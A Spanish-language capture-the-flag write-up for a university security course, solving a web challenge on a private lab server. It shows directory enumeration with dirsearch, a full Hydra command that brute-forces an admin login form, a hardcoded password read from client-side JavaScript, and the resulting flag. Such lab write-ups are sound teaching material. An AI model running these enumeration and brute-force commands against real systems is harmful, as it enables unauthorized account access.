

# Writeup P1 Tarea 2

**Nombre**: Valentina Rojas Osorio

**Equipo**: Hack Pals

# Desarrollo 
 _Para la solución de este problema, se está obviando la **instalación** de herramientas vistas durante el curso, sin embargo, se especifica detalladamente cómo utilizarlas en cada paso. También se especifican usos e instalación de herramientas externas (no vistas)._
 
 _Además, se debe estar conectado a la VPN del CEC, para tener acceso al servidor 172.17.69.241_

---

 Comenzamos con un mensaje de la página que nos dice que no tenemos acceso a ella, lo que implica que tenemos que "ingresar" de alguna manera.

1. Procedemos a buscar información sobre directorios a los que podamos acceder en el servidor (directorios con código de respuesta 200) con la herramienta [dirsearch](https://www.kali.org/tools/dirsearch/). Una vez completada la instalación, abrimos una consola en linux y ejecutamos
    ```
    $ dirsearch -u 172.17.69.241:8081
    ```

1. Encontramos los siguientes directorios:
    ```
    200  1KB  /access_log
    200  874B /favicon.ico
    ```
    Descartamos el favicon.ico, por lo tanto vamos al primer directorio.


1. Aqui encontraremos lo que parecen ser request de tipo GET con response code 400, excepto 
    ```
    /mySuperSecretHiddenLogin.php
    ```
     que tiene response code 200 y un nombre muy sospechoso. 

## Formulario 1: /mySuperSecretHiddenLogin.php

Al dirigirnos a http://172.17.69.241:8081/mySuperSecretHiddenLogin.php nos encontramos un _form_ que solicita Username y Password.

1. Al escribir cualquier _password_ equivocada, la página nos arroja el mensaje "Error". 

1. Si inspeccionamos la página, en el _form_ vemos que el campo de input de Username tiene _name_ username y _value_ admin, y el input de Password tiene name _password_. 

1. Atacamos con fuerza bruta para obtener la Password con la herramienta [Hydra](https://github.com/vanhauser-thc/thc-hydra), abrimos una consola y ejecutamos

    ```
    hydra -l admin -P /home/kali/Desktop/passwords.txt -u -s 8081 172.17.69.241 http-post-form "/mySuperSecretHiddenLogin.php:username=admin&password=^PASS^:Error"
    ```
	* _passwords.txt es un archivo de claves que tenemos en el escritorio de kali_

1. Finalmente, hydra nos arroja las credenciales

    ```
    login: admin password: password1
    ```

## Formulario 2: /password2.php

Una vez logeados como admin, el servidor nos redirigue a http://172.17.69.241:8081/password2.php

1. Al inspeccionar esta página, tenemos otro formulario y notamos que el botón Enter ejecuta una función al hacer click. Esta función se encuentra en el script de la página y es de la forma
    ```js
    <script>
		function checkSecondPassword() {
			var secondPassword = document.getElementById("secondPassword").value;
			if (secondPassword == 'XGQq8aPtvCDAaxPxuFV4aw2uAVvLt5mjRAmyCaCR4QNQm55D7V') {
                document.location = '/mySuperSecretHiddenHome.php';
                } 
            else { document.location = '/';
			}
		}
    </script>    
    ```
    Esta función nos dice que si la secondPassword es 
    ```
    XGQq8aPtvCDAaxPxuFV4aw2uAVvLt5mjRAmyCaCR4QNQm55D7V
    ```
    entonces nos redirige a /mySuperSecretHiddenHome.php


1. Si ingresamos la secondPassword al formulario y damos click en Enter, el servidor no hace nada, por lo tanto nos vamos a la url http://172.17.69.241:8081//mySuperSecretHiddenHome.php a la "fuerza".

1. La página indica que encontramos la flag, pero los corchetes están vacíos, por lo que nuevamente inspeccionamos la página y encontramos que la Flag está escondida en el atributo _alt_ de la imagen.


# Resultados

La flag de este problema es 

        CC5325{my5up3253c237h1dd3nf149}

##


    
